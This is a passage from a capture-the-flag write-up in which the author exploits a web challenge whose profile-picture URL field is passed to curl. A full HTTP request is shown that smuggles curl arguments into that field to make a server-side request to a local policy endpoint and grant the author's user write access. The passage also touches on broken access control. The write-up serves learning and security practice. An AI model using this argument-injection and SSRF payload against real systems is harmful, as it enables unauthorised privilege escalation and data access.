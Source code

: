 ```python
    user["picture"] = user_id

    return redirect("settings?success=Successfully updated the profile picture")
```

Seems like we're just running a curl command on the system, and there's nothing stopping us from querying the endpoint. Let's test that to make sure.

![adsf](https://an00brektn.github.io/img/h@cktivity2021/Pasted image 20210919203820.png)

Very cool. Now, I'll inject my own curl request into the request so I canmake the same request the app would normally use to change permissions, using my own user id which I can find by using Inspect. I'm using Burp's Repeater feature for ease of sending multiple requests.

```
POST /updateSettings HTTP/1.1
Host: challenge.ctf.games:32168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://challenge.ctf.games:32168
Connection: close
Referer: http://challenge.ctf.games:32168/settings
Cookie: csrftoken=iFi0i9PTYhqIiYAb8k2mBzDgkR5dh9MU17ELV25PKZDDtLIE1EmFZBh7EEvcqJ67; session=eyJpZCI6IjE5MmY4Y2FiLWE3MmQtNGM5Yi05YWY4LTJjYzliOGQzN2M2YSJ9.YUfjKw.N60bWaU_T3JEoTPWq4ALUa52gKY
Upgrade-Insecure-Requests: 1

url=--request+POST+http%3A%2F%2Flocalhost%3A8181%2Fv1%2Fdata%2Faccess%2Fwrite+--data-raw+%27%7B%22input%22%3A%7B%22user%22%3A%22192f8cab-a72d-4c9b-9af8-2cc9b8d37c6a%22%2C%22secret%22%3A%22afce78a8-23d6-4f07-81f2-47c96ddb10cf%22%7D%7D%27
```

If you decode the data in the request, you'll see that we're mimicking what we saw in the code to allow our own user to get write permissions. After this, I can directly request the flag, using the same request we used when viewing the secret we created earlier.

![asdf](https://an00brektn.github.io/img/h@cktivity2021/Pasted image 20210919204242.png)

Thank you congon4tor for putting out the "correct" solution even though half of us skipped it :)

## Beyond the Flag
When I was originally solving this challenge, I did not use the SSRF at all, although I did notice it could be used. The first unintended solution we'll explore is a case of Broken Access Control with requests to the OPA. The second unintended solution has to do with the curl request that's being directly called from the machine, which has insufficient filtering.

### Burp Shenanigans
My original solution to this challenge was the final step of the intended solution. There didn't seem to be any checks for requesting another user's secret as long as you had the id. I'd post a screenshot, but I think you get the point. My best guess, based on was congon4tor was saying in chat, was an update to the Open Policy Agent system that caused a change in how the interaction was managed. Needless to say, it bypasses most of this challenge.
